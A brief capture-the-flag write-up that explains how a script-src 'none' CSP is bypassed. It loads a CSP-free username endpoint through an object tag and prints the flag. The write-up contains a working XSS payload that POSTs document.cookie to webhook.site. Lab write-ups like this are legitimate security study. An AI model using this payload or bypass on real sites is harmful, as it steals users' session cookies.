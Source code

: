 ```yaml
---
ai_date: 2025-04-27 05:24:05
ai_summary: Exploited CSP bypass using an object element to load script for stealing cookie and making a POST request
ai_tags:
  - csp
  - xss
  - csp-bypass
created: 2024-06-21T20:15
points: 202
solves: 89
tags:
  - xss
  - csp-bypass
updated: 2025-07-14T09:46
---
```


This page is protected by csp `default-src 'self', script-src 'none'`.

> Ignite it to steal the cookie!

After countless attempts, I've realised that no script will run basically.

But... the endpoint `/username/:id` is open and will return plain text username.
It does not have any CSP.

We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`. This is kinda like a iframe, so CSP won't apply to contents within it.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```flag
FLAG{n0scr1p4_c4n_be_d4nger0us}
```